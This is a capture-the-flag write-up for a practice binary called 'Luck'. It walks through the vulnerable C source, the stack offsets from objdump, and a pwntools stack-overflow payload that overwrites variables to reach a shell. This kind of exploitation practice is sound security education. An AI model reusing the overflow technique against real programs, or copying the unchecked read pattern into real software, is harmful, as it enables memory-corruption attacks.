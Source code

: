 # Luck

Again, we being by looking at the `luck.c` file

  ```C
  
    int a = 0 , b = 1 , c = 2;
    int password = random();

    puts( "What do you want to tell me:" );
    read( 0 , &a , 100 );
    
    printf("You say: %s\n" , &a);

    if( b == 0xfaceb00c && c == 0xdeadbeef ){
        puts( "Hello hacker, now guess the password." );
        puts( "A good hacker always 100% guess right :P, are you a good hacker?" );
        printf( "password:" );

        int input;
        scanf( "%d" , &input );

        if( input == password ){
            puts( "Here is your shell!" );
            system( "sh" );
        }
        else{
            puts( "Bad Luck :(" );
            exit(0);
        }
    }    
   ```
   
This is another simple BOF question. We can see the overflow point starts from `read( 0 , &a , 100 )`.

What we need to to is to overwrite b, c, and password so that we can access to `system( "sh" )`

Let's start with our `objdump -d luck`

    400869:	c7 45 e8 00 00 00 00 	movl   $0x0,-0x18(%rbp)
    400870:	c7 45 f4 01 00 00 00 	movl   $0x1,-0xc(%rbp)
    400877:	c7 45 f8 02 00 00 00 	movl   $0x2,-0x8(%rbp)
    40087e:	e8 6d fe ff ff       	callq  4006f0 <random@plt>
    400883:	89 45 fc             	mov    %eax,-0x4(%rbp)

We can see that a is stored in `rbp - 0x18`, b is stored in `rbp - 0xc`, c is stored in `rbp - 0x8`, and password is stored in `rbp - 0x4`

So, the gap between a, b is 12 bytes (0xc), between b, c is 4 bytes (0x4), and between c, password is 4 bytes (0x4).

Therefore, our padding will need 12 bytes (0xc). b will be replaced with `0xfaceb00c`, c will be replaced with `0xdeadbeef`, and password replaced with can be anything we know.

<b>Note: Remember to send `0xfaceb00c` and `0xdeadbeef`, not string</b>

In the end, our play load will be:
  
```Python
p.sendline(p32(0x11111111) + p32(0x11111111) + p32(0x11111111) +  p32(0xfaceb00c) + p32(0xdeadbeef) + p32(0x00000001))
```
